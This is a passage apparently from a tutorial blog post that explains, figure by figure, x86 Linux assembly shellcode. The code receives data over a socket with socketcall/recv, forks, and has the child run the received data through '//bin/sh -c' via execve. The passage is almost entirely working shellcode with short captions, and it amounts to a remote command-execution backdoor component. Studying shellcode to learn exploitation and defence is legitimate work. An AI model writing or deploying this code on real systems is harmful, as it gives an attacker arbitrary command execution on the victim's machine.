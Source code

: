     ; syscall #102: socketcall()
    xor eax, eax
    mov al, 102

    ; 1st argument of socketcall(): call SYS_RECV
    xor ebx, ebx
    mov bl, 10

    ; 2nd argument of socketcall(): pointer to the arguments of SYS_RECV
    mov ecx, esp

    ; invoke socketcall()
    int 0x80</code></pre><figcaption>Use <code>socketcall</code> to call <code>recv</code> and receive the command to be executed</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">    cmp al, 0xff
    je Exit

    xor eax, eax
    mov al, 2
    int 0x80

    ; if the return value of fork() == 0, it means we're in the child process
    xor ebx, ebx
    cmp eax, ebx
    jne ReceiveData</code></pre><figcaption>After the <code>fork</code>, the <strong>parent</strong> process waits for data to be received, while the <strong>child</strong> process executes the command received just now</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">ExecuteCommand:

    xor esi, esi
    push esi

    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp</code></pre><figcaption>String <code>//bin/sh</code></figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">    mov eax, esi
    mov ax, 0x632d
    push eax

    mov eax, esp</code></pre><figcaption>String <code>-c</code></figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">    push esi
    push ReceivedData
    push eax
    push ebx

    mov eax, esi
    mov al, 11
    mov ecx, esp

    push esi
    mov edx, esp

    int 0x80</code></pre><figcaption>After executing the command (syscall 11: <code>execve</code>), the child process exits gracefully</figcaption></figure><pre><code class="language-nasm">Exit:

    mov eax, esi
    inc eax
    int 0x80
